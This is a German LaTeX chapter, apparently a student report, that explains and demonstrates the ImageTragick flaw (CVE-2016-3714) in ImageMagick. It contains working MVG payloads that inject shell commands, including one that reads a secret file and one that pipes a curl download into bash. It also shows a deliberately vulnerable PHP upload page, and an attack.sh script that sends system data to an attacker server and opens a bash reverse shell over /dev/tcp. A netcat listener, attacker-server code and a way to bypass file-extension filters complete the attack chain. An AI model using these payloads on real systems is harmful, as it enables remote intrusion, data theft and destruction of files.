\chapter{CVE-2016-3714}\label{ch:cve}

\section{Details zur Schwachstelle}\label{sec:details-zur-schwachstelle}
Im Folgenden wird der Code-Ablauf der Schwachstelle beschrieben: \\

Wie schon erwähnt, liegt das Kernproblem der Schwachstelle in der Delegates-Implementierung.\\
Mit dem Befehl \\

convert -list delegate\\

lassen sich die einzelnen Delegates und die damit verknüpften Shell-Befehle darstellen.\\

Hier ist ersichtlich, dass zum Beispiel der Delegate für "http" den Kommandozeilen-Befehl\\
https =>          "curl" -s -k -L -o "\%o" "https:\%M"\\
verknüpft.\\


static char
whitelist[] =
"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_- "
".@&;<>()|/\\\'\":%=~`";
(delegates.c - 333)





%
% Ausnutung
%
\section{Ausnutzung der Schwachstelle}\label{sec:ausnutzung-der-schwachstelle}

\subsection{Erklärung und einfache Beispiele}\label{subsec:erklaerung-und-einfache-beispiele}

Bei den folgenden Beispielen wird eine Shell-Verbindung zum Zielsystem benötigt.
Es wird jeweils eine MVG Datei erstellt und diese anschließend mit dem Imagemagick-Befehl ′identify′ ausgeführt~\cite{PHPImagickIdentifyImage}.
Dieser Befehl wird normalerweise dafür benutzt,
um Informationen über ein Bild - wie die Bildgröße oder den Bildtyp - zu bekommen.
Die Sicherheitslücke ist jedoch nicht nur auf diesen Befehl begrenzt.\\

\begin{lstlisting}[language=Bash, caption=Erklaerung - Identify einer validen PNG Datei,label={lst:lstlisting}]
> identify valid.png
valid.png PNG 320x240 320x240+0+0 8-bit sRGB 2c 302B 0.000u 0:00.000
\end{lstlisting}


\newpage
\subsection{Erstes Beispiel: Ausgabe der Dateien im aktuellen Ordner}\label{subsec:erstes-beispiel:-ausgabe-der-dateien-im-aktuellen-ordner}

Es wird eine MVG Datei erstellt und folgend befüllt.

\vspace{5mm}

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei erstellen,label={lst:lstlisting}]
> vim test1.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}


Besonders wichtig ist hier Zeile vier.
In der url() Methode, wird per Pipe ein zweiter Befehl, nämlich ls -la mitgegeben, welcher die Dateien des aktuellen Verzeichnis auflistet.\\


Per identify wird nun im Namen des aktuell angemeldeten Users folgende Ausgabe erzeugt:

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei identify,label={lst:lstlisting}]
> identify test1.mvg
total 16
drwxr-xr-x 2 root root 4096 Dec 16 08:21 .
drwx------ 8 root root 4096 Dec 16 08:20 ..
-rw-r--r-- 1 root root  144 Dec 16 08:21 test1.mvg
identify: unrecognized color `https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la' @ warning/color.c/GetColorCompliance/1046.
identify: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
test1.mvg MVG 640x480 640x480+0+0 16-bit sRGB 144B 0.000u 0:00.000
identify: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
\end{lstlisting}
\vspace{5mm}


⇒ Das eigentliche identifizieren des Bildes schlägt zwar fehl, es kann aber gut gesehen werden, dass vorher im Hintergrund der hinterlegte Command ausgeführt wurde.

\newpage
\subsection{Zweites Beispiel: Auslesen einer geheimen Datei}\label{subsec:zweites-beispiel:-auslesen-einer-geheimen-datei}

Das erste Beispiel hat das Problem gut gezeigt, allerdings nicht die problematische Auswirkung der Sicherheitslücke.
Im nächsten Beispiel soll der Inhalt einer privaten Passwort-Datei angezeigt werden.
Vergleichbar ist dies mit einer Config-Datei, in der beispielsweise Zugangsdaten zu einer Datenbank hinterlegt sind.\\

Hierfür wird folgende Datei erstellt und befüllt:

\begin{lstlisting}[language=Bash, caption=Beispiel 2,label={lst:bsp2}]
> vim test2.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|cat "/home/max/secretFile)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Nach dem ausführen erscheint in der Console der Inhalt der geheimen Datei:\\ => "`MY\_SECRET\_PASSWORD"'

\begin{lstlisting}[language=Bash, caption=Beispiel 2 - Identify,label={lst:bsp2identify}]
> identify test2.mvg
MY_SECRET_PASSWORD
identify: unrecognized color `https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|cat "SECRET_FILE' @ warning/color.c/GetColorCompliance/1046.
identify: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
exploit.mvg MVG 640x480 640x480+0+0 16-bit sRGB 153B 0.000u 0:00.000
identify: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
root@vm-its:~/install/6.8.0/code/case2#
\end{lstlisting}
\vspace{5mm}

\subsection{Die Problemematik der Datei Endung}\label{subsec:die-problemematik-der-datei-endung}
Datei-Endungen werden benutzt, damit Menschen direkt wissen, um welchen Dateityp es sich handelt.
Außerdem hat es den Vorteil, dass im Betriebssystem für Datei-Endungen ein gewisses Standard-Program festgelegt werden kann.
So können z.B. .html Dateien standardmäßig mit Firefox oder .txt Dateien standardmäßig mit dem Editor geöffnet werden.

Für Imagemagick ist die Dateiendung irrelevant.
Bild-Typen werden anhand des Dateiinhalts, nicht der Endung im Dateinamen erkannt.
Dies ist problematisch, da hier auch der User getäuscht werden kann.
Durch das Vorschaubild der gewohnten Bildvorschauanwendung, verlässt sich der User darauf, dass eine Datei mit der Endung .png auch wirklich vom Typ PNG ist.
Allerdings kann es sich z.B. auch um eine angreifende MVG-Datei handeln.
Dies ist vor allem im gleich beschriebenen Social Engineering Fall relevant.

\subsection{Zwischenfazit}\label{subsec:zwischenfazit}

In den beiden Fällen gezeigten Fällen wird deutlich, wie ein Befehl in eine mvg Datei eingebettet werden kann.
Es ist außerdem erkennbar, dass Code-Execution gefährlich ist.
Die hier gezeigten Beispiele zeigen nur das Auslesen von Informationen.
Es können allerdings auch schreibende, sowie zerstörende Befehle im Namen des Users ausgeführt werden.
Es wäre im schlimmsten Fall also auch ein Löschen aller Dateien möglich, auf die der User Zugriff hat.
\\
Da bis jetzt physischer Zugriff auf das System benötigt wird und der Angreifer nicht Remote Code ausführen kann, ist die einzige Möglichkeit für einen Angreifer auf Social Engineering zurückzugreifen.\\
\newpage
\subsection{Social Engineering}\label{subsec:social-engineering}

Unter Social Engineering versteht man, sicherheitsrelevante Daten durch die Ausnutzung menschlicher Komponenten
in Erfahrung zu bringen~\cite{WasIstSocialEngineering}.\\\\

Ein folgendes Szenario wäre denkbar:\\

Die Marketingfirma M kümmert sich um die Website der Firma X. Firma X sendet regelmäßig Bilder per Mail an Firma M,
damit jene die Bilder auf der Website im News Bereich der Website veröffentlichen kann.\\

Bilder werden über ein CMS verwaltet.
Es werden also zur Pflege der Websites keine Informatiker mit Erfahrung in IT-Sicherheit benötigt.\\

Die Bilder sind teilweise in sehr hoher Auflösung fotografiert worden, sind also teilweise einzeln über 20MB groß.
Damit die Bilder schneller hochgeladen und den Besuchern der Website eine gute User Experience
durch schnelle Ladezeit geboten werden kann, müssen diese Bilder vor dem Upload noch verkleinert werden.\\

Die IT-Abteilung der Firma M, hat Imagemagick installiert und den Mitarbeitern ein Program geschrieben,
bei welchem nur der Dateiname übergeben werden muss.
Im Hintergrund wird dann der Scale-Befehl von Imagemagick aufgerufen, der das Bild auf die richtige größe skaliert,
damit dieses anschließend von dem Mitarbeiter auf die Website hochgeladen werden können.\\

Ein bösewilliger Angreifer gibt sich nun als Mitarbeiter der Firma X aus, möchte, dass ein neuer News-Eintrag erstellt wird.
Er sendet im Anhang eine MVG-Datei mit, welche nach dem obrigen Aufbau formatiert ist und einen 'rm -rf /'-Befehl enthält.
Die MVG-Datei hat die Endung .png, wodurch die Datei für den Mitarbeiter ungefährlich aussieht.\\

Der Mitarbeiter, welcher die Mail bearbeitet, erkennt diese nicht als Schadsoftware
und führt das Program zum Skalieren von Dateien mit dieser Datei als Parameter aus.
Der Hinterlegte `rm` Befehl wird ausgeführt und sämtliche Dateien, auf die der ausführende Mitarbeiter Zugriff hat, werden gelöscht.
Da auf dem Rechner auch noch Bilder und Texte von anderen Projekten liegen, ist für die Firma ein deutlicher Schaden entstanden.
Bilder müssen aus Backups wieder hergestellt werden
und gewisse Dateien müssen neu angefordert beziehungsweise neu erarbeitet werden,
was einige Arbeitstage für die komplette Firma in Anspruch nimmt.\\

Durch dieses Szenario ist erkennbar, dass auch ein Angriff ohne direkten Zugriff auf den Zielcomputer großen Schaden anrichten kann.

\subsection{Komplexes Beispiel mit Remote Code Execution}\label{subsec:komplexes-beispiel-mit-remote-code-execution}

\subsubsection{Erklärung}
In dem nachfolgenden Beispiel soll eine Situation gezeigt werden,
in der der Angreifer von einem Server mit öffentlicher IP aus direkt die Möglichkeit hat,
sensible Daten abzugreifen und potentiell auch Schaden auf dem Zielserver anzurichten kann.\\

Für das Beispiel soll ein Forum simuliert werden, bei dem User ein eigenes Profilbild hochladen können.
Da Profilbilder im Forum nur sehr klein angezeigt werden müssen,
sollen diese per Imagemagick herunterskaliert werden,
um Speicherplatz zu sparen und damit die Bilder schneller an den Website-Aufrufer ausgeliefert werden kann.
Besonders für User, die über Mobile Daten zugreifen,
ist jede Optimierung der zu übertragenen Bildern und Source-Dateien sehr wichtig.\\

Bei dieser Situation handelt es sich um einen typischen Use-Case,
da in einem Forum Nutzern immer die Möglichkeit haben, selbst Bilder hochzuladen.
Diese Bilder müssen, wie beschrieben analysiert und modifiziert werden,
was oft die Software ImageMagick übernimmt.
\subsubsection{Aufbau von Website}
Die Anwendung wird mit HTML, PHP und CSS aufgebaut.
Dafür muss zunächst ein Webserver installiert werden.

\subsubsubsection{Installation NGINX}

Wir haben uns für NGINX entschieden.
Da NGINX auf eine asynchrone Architektur setzt, bietet es eine bessere Performance im Vergleich zu dem Konkurrenten Apache~\cite{NginxVsApache}.
Seit Oktober 2020 wird NGINX außerdem auf den meisten Computern als Webserver eingesetzt und übertrifft damit Apache~\cite{WebServerSurvey}.

\begin{figure}[H]
    
\includegraphics[width=1\textwidth]{img/NGINX.png}
    \caption{Anteil der Computer, auf denen NGINX eingesetzt wird~\cite{WebServerSurvey}}\label{fig:figure}
\end{figure}

\subsubsubsection{Installation von nginx}

\begin{lstlisting}[language=Bash, caption=Installation von NGINX,label={lst:nginxinstall}]
apt-get install nginx
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{Installation von php und php-fpm}

PHP wird ebenfalls aus den Paketquellen installiert.
Außerdem wird das Modul php-fpm installiert, welches für nginx benötigt wird~\cite{InstallNginxPHP}.

\begin{lstlisting}[language=Bash, caption=PHP und PHP-FPM installation,label={lst:installphpphpfpm}]
> apt-get install php7.0 php7.0-fpm
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{Installation von php-imagick über Paketquellen}

Zunächst wird versucht die PHP-Erweiterung für Imagemagick genauso über die Paketquellen zu installieren

\begin{lstlisting}[language=Bash, caption=Install PHP-Imagick Modul,label={lst:installphpmagick}]
> apt-get install php-imagick
\end{lstlisting}
\vspace{5mm}

Listet man sich nun alle installierten php module auf, wird ersichtlich, dass die Version die in den Paketquellen für Ubuntu 16.04 liegt nicht mit der installieten Version von Imagemagick kompatibel ist.
Dies lässt sich als positiv herausheben, da es zeigt, dass bei einer Neuinstallation von php7 und Imagemagick die Sicherheitslücke nicht mehr über php ausgenutzt werden kann.

\begin{lstlisting}[language=Bash, caption=PHP Module überprüfen,label={lst:checkmodule}]
> php -m | grep image
PHP Warning: Version warning: Imagick was compiled against Image Magick version 1673 but version 1682 is loaded. Imagick will run but may behave surprisingly in Unknown on line 0
\end{lstlisting}
\vspace{5mm}

Also muss das Package wieder deinstalliert werden und eine alte Version installiert werden.

\begin{lstlisting}[language=Bash, caption=Uninstall PHP-Imagick Modul,label={lst:uninstallimagick}]
> apt-get purge php-imagick
\end{lstlisting}
\vspace{5mm}

\newpage
\subsubsubsection{Installation von php-imagick from source}

Ältere Versionen von php-imagick können über PECL installiert werden.
PECL ist ein Package Repository für PHP Erweiterungen~\cite{PHPPecl}.

Bevor PECL genutzt werden kann, müssen noch einige Abhängigkeiten installiert werden~\cite{InstallPECLExtensions}.
\begin{lstlisting}[language=Bash, caption=Installiere PECL Abhängigkeiten,label={lst:installpecldeps}]
> apt-get install php-pear
> apt-get install php7.0-dev
> apt-get install pkg-config
\end{lstlisting}
\vspace{5mm}

Nun wird die Version 3.4.0 installiert:
\begin{lstlisting}[language=Bash, caption=PECL Install Imagick Modul,label={lst:peclinstallimagick}]
> pecl install imagick-3.4.0
\end{lstlisting}
\vspace{5mm}

Damit das imagick php modul in der CLI gefunden werden kann, muss es zunächst in der php.ini aktiviert werden.
Dafür wird ein neuer extension-Eintrag erstellt.

\begin{lstlisting}[language=Bash, caption=PHP Imagick aktivieren,label={lst:phpactivateimagick}]
> vim /etc/php/7.0/cli/php.ini
extension=imagick.so
\end{lstlisting}
\vspace{5mm}

> vim /etc/php/7.0/cli/php.ini
extension=imagick.so

\begin{lstlisting}[language=Bash, caption=PHP Überprüfe Imagick Modul,label={lst:phpcheckimagicksuccess}]
> php -m | grep imagick
imagick
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{Konfiguration von NGINX}

Als erstes muss php in der site-config von nginx aktiviert werden. 
Die sock-Datei unter fastcgi\_pass muss existieren. 
Der Pfad ist bei anderen PHP Versionen unter Umstäden unterschiedlich. 
Um die Änderungen anzuwenden, muss nginx neu gestartet werden~\cite{InstallNginxPHP}.

\begin{lstlisting}[language=Bash, caption=NGINX Default-Config,label={lst:nginxdefaultconf}]
> vim /etc/nginx/sites-available/default
location ~ \.php$ {
    include snippets/fastcgi-php.conf;
    fastcgi_pass unix:/run/php/php7.0-fpm.sock;
}

> systemctl restart nginx
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{Aktivierung der des imagick Moduls für fpm}

Damit für nginx das imagick php modul ebenfalls aktiviert ist, muss die Erweiterung auch in der php.ini von fpm deklariert werden.

\begin{lstlisting}[language=Bash, caption=PHP-FPM Imagick Modul aktivieren,label={lst:phpfpmaddimagick}]
> vim /etc/php/7.0/fpm/php.ini
extension=imagick.so
\end{lstlisting}
\vspace{5mm}

Änderungen werden über ein Restart von fpm übernommen:
\begin{lstlisting}[language=Bash, caption=PHP-FPM Neustarten,label={lst:phpfpmrestart}]
service php7.0-fpm restart
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{Überprüfen der Installation durch phpinfo()}

Um zu überprüfen, ob nun auf PHP Ebene Imagemagick gearbeitet werden kann, wird eine PHP Datei erstellt, in der die PHP Methode phpinfo() aufgerufen wird, welche zahlreiche Informationen zur Installierten PHP Umgebung anzeigt~\cite{PHPPhpinfoManual}.

\begin{lstlisting}[language=Bash, caption=info.php mit phpinfo(),label={lst:phpinfo}]
> vim /var/www/html/info.php

<?php
phpinfo();
?>
\end{lstlisting}
\vspace{5mm}

Ruft man nun die Seite über den Browser auf, sieht man auch das installierte imagick-Modul, sowie alle supporteten Datei-Formate.
Darunter auch einige Bild-Formate wie PNG, JPEG und MVG, welche für die Forum-Profil Seite benötigt werden.

\begin{figure}[H]
    
\includegraphics[width=1\textwidth]{img/phpinfo.png}
    \caption{imagick-Abschnitt aus phpinfo()}\label{fig:phpinfo}
\end{figure}

\subsubsubsection{Aufbau der PHP Website}

Als nächsten Schritt wird über HTML und CSS eine Profil-Seite aufgebaut, welche Links das Profilbild und einen Upload-Button zeigt.
Rechts sind noch einige weitere Informationen zu dem User zu finden.

\begin{figure}[H]
    
\includegraphics[width=1\textwidth]{img/ForumAufbau.png}
    \caption{Screenshot der Forum Profil-Seite}\label{fig:forumprofil}
\end{figure}
Für das Design wurde ein bestehendes Bootstrap Snippet genutzt, angepasst und um die Upload Funktionalität erweitert~\cite{BootSnapTemplate}.

Der relevante Imagemagick-Teil wird ausgeführt, sobald ein Bild in dem Filepicker ausgewählt und der Submit-Button betätigt wird.

\begin{lstlisting}[language=PHP, caption=Imagick skalieren und speichern,label={lst:imagickscalesave}]

<?php

if (isset($_POST['submit'])) {
  $dir = "uploads/";
  $file = $dir . basename($_FILES['file']['name']);
  echo move_uploaded_file($_FILES['file']['tmp_name'], $file);

  try {
	  $im = new Imagick($file);
	  $im->scaleImage(420, 240, true);
    $im->writeImage('profile.png');
  } catch (Exception $e) {
    echo $e->getMessage();
  }
}

?>
\end{lstlisting}
\vspace{5mm}

In diesem Fall wird das Bild in uploads/ abgelegt, per Imagemagick auf eine feste Größe skaliert~\cite{PHPImagickScaleImage} und anschließend nochmal in profile.png geschrieben.
Dei Datei unter dem Pfad profile.png wird in das Bild geladen.

\begin{lstlisting}[language=HTML, caption=Profile Image,label={lst:htmlimg}]
<div class="profile-img">
	<img src="profile.png" alt=""/>
</div>
\end{lstlisting}
\vspace{5mm}


\subsubsection{Generische angreifende MVG-Datei}

Der Angriffspunkt auf die Website besteht darin eine infizierte MVG-Datei analog zu den einfachen Beispielen oben hochzuladen und somit an Informationen über die Webserver zu kommen.\\

Da, in der MVG nur eine Zeile Platz ist den schädlichen Code zu platzieren, haben wir uns für einen generischen Code entschieden. Hier wird eine .sh-Datei von dem Server des Angreifers heruntergeladen und per Bash ausgeführt.

\begin{lstlisting}[language=MVG, caption=Aufbau generische angreifende MVG-Datei,label={lst:genericmvg}]
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|curl "http://192.168.16.125:8080/attack"| bash")'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Der Angreifer kann also auf seinem Server entscheiden, welcher Code ausgeführt wird und die Implementierung jederzeit erweitern.\\

Der Aufbau des Webservers des Angreifers wird im kommenden Absatz beschrieben.

\subsubsection{Der Angreifer-Webserver}

\subsubsubsection{Allgemein}

Wir haben uns bei der Implementierung des Angreifer-Webservers für das Framework Ktor~\cite{KtorWebsite} in der Programmiersprache Kotlin~\cite{KotlinProgrammingLanguage} entschieden.

Der Webserver besteht aus folgenden Bestandteilen:
\begin{itemize}[\itemsep=1em]
    \item Die attack.sh Script-Datei, welche definiert, welche Aktionen auf dem Opfer-Server ausgeführt werden und die abgefangene Daten zurück an den Angreifer-Server sendet
    \item Einer GET Route /attack, die den Inhalt einer .sh Datei zurückgibt, welcher auf dem Server des Opfers ausgeführt wird
    \item Einer POST Route /report, an die abgefangene Daten gesendet werden können
\end{itemize}

\subsubsubsection{Attack.sh Script}

\begin{lstlisting}[language=Bash, caption=attach.sh Script,label={lst:attacksh}]
#!/bin/bash

REST_URL="http://192.168.16.125:8080"

function report() {
  curl -X POST -F "key=$1" -F "value=$2" -v "$REST_URL/report"
}

report "user" "$(whoami)"
report "ram" "$(free -m)"
report "cpu" "$(lscpu)"
report "ls" "$(ls -la)"
report "test" "$(tail -n 20 test.php)"

/bin/bash -i >& /dev/tcp/vh05.maax.gr/1111 0>&1
\end{lstlisting}

\begin{itemize}[\itemsep=1em]
    \item Es wird eine Adresse/Domain definiert, unter der der Restserver erreichbar ist
    \item Es wird eine report() Funktion definiert, welche per CURL einen POST Request an den /report Endpunkt sendet.
    Der erste Parameter der Funktion ist eine Beschreibung, welche Information abgegriffen wird (Key), der zweite Parameter der Value, also die Daten, die für diesen Key abgegriffen wurden.
    \item Für jede information, die abgegriffen werden soll, wird die report Funktion aufgerufen.
    Per \$(command) wird die Ausgabe des Commands zurückgeben und hier als Parameter an die report()-Funktion übergeben
    \item Weitere, auch schreibende oder zerstörende Aktionen, können in der Datei definiert werden
\end{itemize}


An dieser Stelle kann auch eine Verbindung zu einer Reverse Shell aufgebaut werden.
Dafür kann sogar direkt der Bash-Befehl verwendet werden, welcher immer vorinstalliert ist~\cite{NetcatHacking}. \\

Damit dies funktioniert, muss vorher ein Netcat-Listener auf dem angegebenen Host und Port erstellt werden,
was über folgenden Befehl möglich ist:

\begin{lstlisting}[language=Bash, caption=Netcat Listener erstellen, label={lst:setupnetcatlistener}]
nc -lvp 1111
\end{lstlisting}
\vspace{5mm}

Nach dem Upload der generischen MVG-Datei können
vom vh05.maax.gr-Host aus interaktiv Befehle auf dem Opfer-Server im Namen des www-data-Users abgesetzt werden.

\clearpage

\subsubsubsection{GET /attack Route}

\begin{lstlisting}[language=Kotlin, caption=GET /attack Route,label={lst:attackroute}]
get("/attack") {
    var attackSH = getResourceContent("static/attack.sh")
    attackSH = attackSH.replace("\r\n", "\n")
            .replace("\r", "\n")
    call.respondText(attackSH)
}
\end{lstlisting}
\vspace{5mm}

Die GET-Route holt sich den Inhalt der attack.sh Datei und gibt diesen an den Aufrufer als Response zurück.
Wir gehen in unserem Beispiel davon aus, dass das Opfer die Website auf einem Linux Server betreibt.
Linux nutzt das Line-Ending "`\textbackslash n"'.
Wird der Angreifer-Server auf einem Windows-PC ausgeführt, müssen die Windows-Zeilenumbrüche noch ersetzt werden, damit der Inhalt vom Linux-Server interpretiert werden kann.

\subsubsubsection{POST /report Route}

\begin{lstlisting}[language=Kotlin, caption=POST /report Route,label={lst:portreport}]
post("/report") {
    val parameters = call.receiveParameters()
    println("${parameters["key"]} => ${parameters["value"]}")

    call.respondText("OK")
}
\end{lstlisting}
\vspace{5mm}

In diesem Beispiel, werden die Parameter, also Informationen,
die vom attack.sh Script gesammelt und zum Server gesendet werden, auf der Console des Servers ausgegeben.
Weiter könnte man sich ein Loggen in einer Datenbank,
beziehungsweise eine Liveansicht über Websockets in einem Attacker-Dashboard vorstellen.

\subsubsection{Umgehen von Uploadbeschränkungen}

Eine erste Idee der Verteidigung wäre, den Upload auf Dateien mit einer gewissen Datei-Endung zu beschränken.
(z.B. Nur PNG-Dateien)
Dieser Fix kann aber einfach umgangen werden, indem man die mvg-Datei zu einer png-Datei umbenennt.
Da ImageMagick den Dateitypen anhand des Inhalts errät, ist es egal, wie die Datei selbst heißt.
Sie Schwachstelle kann somit trotzdem noch ausgenutzt werden.

%


